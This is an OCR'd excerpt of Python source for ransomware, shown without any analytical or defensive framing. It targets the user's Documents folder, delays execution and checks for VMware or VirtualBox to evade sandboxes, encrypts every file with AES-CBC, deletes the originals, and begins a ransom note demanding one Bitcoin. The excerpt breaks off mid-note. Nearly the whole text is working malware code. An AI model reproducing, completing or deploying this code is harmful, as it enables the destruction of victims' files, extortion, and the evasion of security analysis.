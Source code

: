 ```python
# Configuration
TARGET_DIR = os.path.expanduser("~/Documents")  # Replace with target directory path
ENCRYPTION_EXT = ".locked"
KEY_FILE = "encryption_key.key"

# Anti-sandboxing delay
time.sleep(10)

# Function to check for virtual environment
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check

# Generate encryption key
def generate_key():
    key = get_random_bytes(16)
    with open(KEY_FILE, "wb") as f:
        f.write(key)
    return key

# Encrypt files in target directory
def encrypt_file(file_path, key):
    with open(file_path, "rb") as f:
        data = f.read()

    cipher = AES.new(key, AES.MODE_CBC)
    encrypted_data = cipher.encrypt(pad(data, AES.block_size))

    with open(file_path + ENCRYPTION_EXT, "wb") as f:
        f.write(cipher.iv + encrypted_data)

    os.remove(file_path)

# Decrypt files in target directory
def decrypt_file(file_path, key):
    with open(file_path, "rb") as f:
        iv = f.read(16)
        encrypted_data = f.read()

    cipher = AES.new(key, AES.MODE_CBC, iv=iv)
    decrypted_data = unpad(cipher.decrypt(encrypted_data), AES.block_size)

    original_path = file_path.replace(ENCRYPTION_EXT, "")
    with open(original_path, "wb") as f:
        f.write(decrypted_data)

    os.remove(file_path)

# Traverse target directory and encrypt files
def encrypt_files_in_directory(directory, key):
    for root, _, files in os.walk(directory):
        for file in files:
            file_path = os.path.join(root, file)
            if not file.endswith(ENCRYPTION_EXT):  # Avoid re-encrypting files
                encrypt_file(file_path, key)

# Create ransom note
def create_ransom_note():
    note_path = os.path.join(TARGET_DIR, "README_FOR_DECRYPTION.txt")
    ransom_message = """
    Your files have been encrypted.
    To recover your files, please send 1 Bitcoin to the specified address.
```
